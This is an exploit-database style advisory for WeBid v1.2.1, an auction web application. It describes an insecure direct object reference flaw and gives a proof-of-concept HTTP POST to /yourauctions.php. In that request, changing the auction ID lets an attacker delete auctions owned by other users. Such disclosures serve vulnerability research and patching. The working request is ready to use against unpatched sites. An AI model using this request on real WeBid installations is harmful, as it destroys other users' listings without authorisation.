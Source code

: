 # Exploit Title: Webid v1.2.1 - Insecure Direct Object Reference(IDOR)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from IDOR - Broken Access Control Vulnerability allowing attackers to delete an active auction that is owned by other user(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /yourauctions.php HTTP/1.1
...

csrftoken=e7ea4206644f3113937111c886b52ead&O_delete%5B%5D=5(CHANGE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```